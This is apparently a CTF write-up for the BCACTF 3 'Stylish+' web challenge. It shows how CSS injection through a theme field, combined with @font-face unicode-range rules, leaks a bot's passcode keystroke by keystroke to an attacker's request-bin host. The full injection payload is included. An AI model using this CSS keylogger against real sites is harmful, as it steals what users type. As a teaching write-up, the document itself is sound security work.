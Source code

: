 ```yaml
---
title: Stylish+
date: 2022-06-06 10:00:00 +0200
categories: [web]
tags: [bcactf3]
toc: false
---
```


## Overview
Stylish+ is a **Fastify** web application that allows you to create CSS themes and present them to a bot. You also get the source code of the application to review it and identify any security vulnerabilities.

![](/assets/img/stylish_landing_page.png#center)
## Vulnerability
Looking at `package.json` file for deprecated libraries with known security vulnerabilities and also other config files for misconfigurations - has led to nothing.

After toying with the website and clicking every button - a POST request with the following payload is sent:
``` json
{
	"bodyBG":"white",
	"bodyFG":"black",
	"accentBG":"black",
	"accentFG":"white"
}
```
Let's see how the data is processed in `server/src/index.ts`.
``` javascript

app.post<{ Body: Static<typeof Theme> }>("/api/report", async (request, reply) => {
    // Generate an ID
    const id = cuid();

    // Store the theme
    themes.set(id, request.body);

    let context: BrowserContext | undefined;
    let page: Page | undefined;

    try {
        context = await (await browser).createIncognitoBrowserContext();
        page = await context.newPage();
        await page.setCacheEnabled(false);
        await page.goto(`http://localhost:3000/?theme=${id}`, { waitUntil: "load", timeout: 3000 });
        await page.click("#open-admin-panel");

        // Wait a bit to give everything some time to load
        await new Promise(resolve => setTimeout(resolve, 1000));

        const passcode = thePasscode;
        for (let i = 0; i < passcode.length; i++) {
            const char = passcode.charAt(i);
            const id = cuid();
            await page.evaluate(`
            document.querySelectorAll("#keypad > button").forEach(button => {
                if (button.innerText === "${char}") {
                    button.id = "${id}";
                }
            })
            `);
            await page.click(`#${id}`);
            await new Promise(resolve => setTimeout(resolve, 300));
        }

        const submitID = cuid();
        await page.evaluate(`
        document.querySelectorAll("#keypad > button").forEach(button => {
            if (button.innerText === "Submit") {
                button.id = "${submitID}";
            }
        })
        `);
        await page.click(`#${submitID}`);
        await new Promise(resolve => setTimeout(resolve, 3000));

        reply.send("sure");
    } catch (e) {
        console.error(e);
        throw e;
    } finally {
        // Clean up
        themes.delete(id);
        await page?.close();
        await context?.close();
    }
});
```
The body is saved inside a themes map for a quick visit from the bot and then deleted. However, the bot not only visits the page, but also enters its secret passcode - we should remember that.
![](/assets/img/stylish_passcode.png#center)
In `public/src/main.ts` we can see that the theme is written inside a style tag.
``` javascript
function setTheme({bodyBG, bodyFG, accentBG, accentFG}: Theme) {
    theme = {bodyBG, bodyFG, accentBG, accentFG};
    document.getElementById("style")!.innerText = `
        :root {
            --body-bg: ${bodyBG};
            --body-fg: ${bodyFG};
            --accent-bg: ${accentBG};
            --accent-fg: ${accentFG};
        }
    `;
}
```
So we have controll over the html `<style>` tag. Great - but how do we abuse that? Since this is a CTF challenge we firest have to see where the flag is hidden in the first place.
In `server/src/index.ts` there is another endpoint which looks as follows:
``` javascript
app.post<{ Body: Static<typeof FlagRequest> }>("/api/flag", {
    schema: {
        body: FlagRequest,
    },
}, (request, reply) => {
    const { passcode } = request.body;
    if (passcode === (thePasscode ?? "")) {
        console.log("Flag get!");
        reply.send(flag ?? "yell at the problem author to fix this");
    } else {
        reply.status(403).send("no");
    }
});
```
Great, we have to figure out how to get our hands on the passcode - as we have already seen the bot that visits our theme enters the passcode. So how do we steal it?
It is pretty simple - thorugh the `:focused` selector we only have to load an image from our server and we should get with every click a part of the passcode, right?
This would be far too easy - so the author of the challenge randomized the order of the buttons containing letters and numbers.
``` javascript
const buttons = [
	"D", "E", "F",
	"A", "B", "C",
	"7", "8", "9",
	"4", "5", "6",
	"1", "2", "3",
	"Reset", "0", "Submit",
];
const indices = [...Array(buttons.length).keys()];

for (let i = 0; i < indices.length; i++) {
	const j = Math.floor(Math.random() * indices.length);
	const temp = indices[i];
	indices[i] = indices[j];
	indices[j] = temp;
}
--- snipped ---
css += `
	#keypad button:nth-child(${i + 1}) {
		order: ${indices[i]};
	}
`;
--- snipped ---
```
## Exploitation
After researching the topic and readig through [tons of drafts](https://drafts.csswg.org/selectors/). I thought I would have to give up because it didn't seem possible to create a selector for a button with a specific letter or number.
But wait - why reinvent the wheel when it already exists - the idea of a CSS keylogger is not new and has been around for over 10 years! So I changed my research on this topic and found tons of new input to try out - for example the [@font-face rule](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face).
This rule set has a unique property called `unicode-range` which allows us to load a remote font and use only a range of chracters from it - this means that if we create this rule set for each letter and number of the passcode, we can build our keylogger - how exciting ^^
``` css
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=A), local(Impact); unicode-range: U+41; } // A
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=B), local(Impact); unicode-range: U+42; } // B
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=C), local(Impact); unicode-range: U+43; } // C
...
#keypad button:focus { font-family: x, 'Comic sans ms'; }
```
Our payload now looks like this:
``` json
{
    "bodyBG":"white",
    "bodyFG":"orange",
    "accentBG":"green",
    "accentFG":"blue;}@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=A), local(Impact); unicode-range: U+41; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=B), local(Impact); unicode-range: U+42; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=C), local(Impact); unicode-range: U+43; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=D), local(Impact); unicode-range: U+44; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=E), local(Impact); unicode-range: U+45; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=F), local(Impact); unicode-range: U+46; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=0), local(Impact); unicode-range: U+30; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=1), local(Impact); unicode-range: U+31; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=2), local(Impact); unicode-range: U+32; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=3), local(Impact); unicode-range: U+33; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=4), local(Impact); unicode-range: U+34; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=5), local(Impact); unicode-range: U+35; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=6), local(Impact); unicode-range: U+36; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=7), local(Impact); unicode-range: U+37; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=8), local(Impact); unicode-range: U+38; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=9), local(Impact); unicode-range: U+39; }#keypad button:focused { font-family: x, 'Comic sans ms';"
}
```
So let's just try it and hope for the best.
![](/assets/img/stylish_requestbin.png#center)

I had to repeat this process for a few times until I had the working passcode because the bot clicks on a button ever 300ms the resourcestokk sometimes longer to load but in the end I had the working passcode: 4D7EA2950FC8B613

Sending it to the flag endpoint reveals the flag.
> bcactf{insert_absolutely_bad_css_pun_here_1fAZUo7ZgiCqiQkBkwPW0A}

٩(◕‿◕｡)۶
